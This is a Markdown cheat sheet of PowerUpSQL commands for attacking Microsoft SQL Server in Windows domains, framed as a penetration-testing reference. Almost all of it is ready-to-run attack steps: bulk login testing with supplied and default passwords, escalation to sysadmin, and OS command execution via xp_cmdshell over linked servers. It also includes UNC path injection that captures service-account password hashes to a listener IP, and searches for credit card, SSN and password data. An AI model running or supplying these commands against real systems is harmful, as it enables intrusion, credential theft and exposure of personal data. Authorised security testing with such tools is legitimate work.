 Below is a list of some of the most common PowerUpSQL functions used during pentests.

## SQL Server Discovery Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Discover Local SQL Server Instances |`Get-SQLInstanceLocal -Verbose`
|Discover Remote SQL Server Instances | `Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1` <br>or<br>`Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose`
|Discover domain SQL Server Instances | `Get-SQLInstanceDomain -Verbose`
|Discover domain SQL Server Instance using alternative domain credentials|`runas /noprofile /netonly /user:domain\user PowerShell.exe`<br>`import-module PowerUpSQL.psd1`<br>`Get-SQLInstanceDomain`
|List SQL Servers using a specific domain account| `Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc`
|List shared domain user SQL Server service accounts|`Get-SQLInstanceDomain -Verbose | Group-Object DomainAccount | Sort-Object count -Descending | select Count,Name | Where-Object {($_.name -notlike "*$") -and ($_.count -gt 1) }`

## SQL Server Login Test Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Get a list of domain SQL servers that can be logged into with a provided SQL Server login|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username testuser -password testpass | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`
|Get a list of domain SQL servers that can be logged into with the current domain account|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`
|Get a list of domain SQL servers that can be logged into using an alternative domain account | `runas /noprofile /netonly /user:domain\user PowerShell.exe`<Br>`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose -Threads 15`
|Get a list of domain SQL servers that can be logged into using an alternative domain account from a non domain system. | `runas /noprofile /netonly /user:domain\user PowerShell.exe`<Br>`Get-SQLInstanceDomain -Verbose -Username 'domain\user' -Password 'MyPassword!' -DomainController 10.1.1.1 | Get-SQLConnectionTestThreaded -Verbose -Threads 15`
| Discover domain SQL Servers and determine if they are configured with default passwords used by common applications based on the instance name | `Get-SQLInstanceDomain | Get-SQLServerLoginDefaultPw -Verbose`

## SQL Server Privilege Escalation Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Audit for Issues| `Invoke-SQLAudit -Verbose -Instance SQLServer1`
|Escalate to sysadmin | `Invoke-SQLEscalatePriv -Verbose -Instance SQLServer1`
|Execute OS commands | `$Targets | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10`
|Crawl database links|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1`<br>`Get-SqlCrawl -Verbose -Instance SQLSERVER1\Instance1` 
|Crawl database links and execute query|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "select name from master..sysdatabases"`
|Crawl database links and execute OS command|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "exec master..xp_cmdshell 'whoami'"`
|UNC path injection |`Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1` <br> `Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1`

## SQL Server Data Targeting Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Execute arbitrary query|`$Targets | Get-SQLQuery -Verbose Query "Select @@version"`
|Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose`
|Grab list of non-default databases | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults`
|Dump common information from server to files|`Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv`
|Find sensitive data based on column name |`$Targets |  Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults`
|Find sensitive data based on column name, but only target databases with transparent encryption|`$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults`
